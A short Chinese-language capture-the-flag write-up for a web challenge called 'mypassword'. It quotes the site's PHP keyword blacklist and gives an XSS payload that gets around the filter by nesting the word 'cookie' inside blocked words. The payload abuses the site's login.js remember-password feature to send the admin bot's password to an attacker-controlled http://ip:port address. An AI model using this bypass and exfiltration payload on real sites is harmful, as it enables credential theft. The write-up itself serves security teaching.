


## mypassword
打开浏览器，注册登录，提示密码在写在源码中，无法通过sql注入获得



打开反馈页面，查看源码发现过滤字符，发现除了cookie以外都能通过插入前面的字符进行绕过

```
if(is_array($feedback)){
				echo "<script>alert('反馈不合法');</script>";
				return false;
			}
			$blacklist = ['_','\'','&','\\','#','%','input','script','iframe','host','onload','onerror','srcdoc','location','svg','form','img','src','getElement','document','cookie'];
			foreach ($blacklist as $val) {
		        while(true){
		            if(stripos($feedback,$val) !== false){
		                $feedback = str_ireplace($val,"",$feedback);
		            }else{
		                break;
		            }
		        }
		    }
```

尝试通过引入外部js读取cookie但发现被CSP禁止



回到登录界面发现login.js中的记住密码功能会将读取cookie中的password。于是构造一个登录框并且引入login.js提交反馈等待bot点开获得flag

```
<incookieput type="text" name="username">
<incookieput type="password" name="password">
<scrcookieipt scookierc="./js/login.js"></scrcookieipt>
<scrcookieipt>
	var psw = docucookiement.getcookieElementsByName("password")[0].value;
	docucookiement.locacookietion="http://ip:port/?psw="+psw;
</scrcookieipt>
```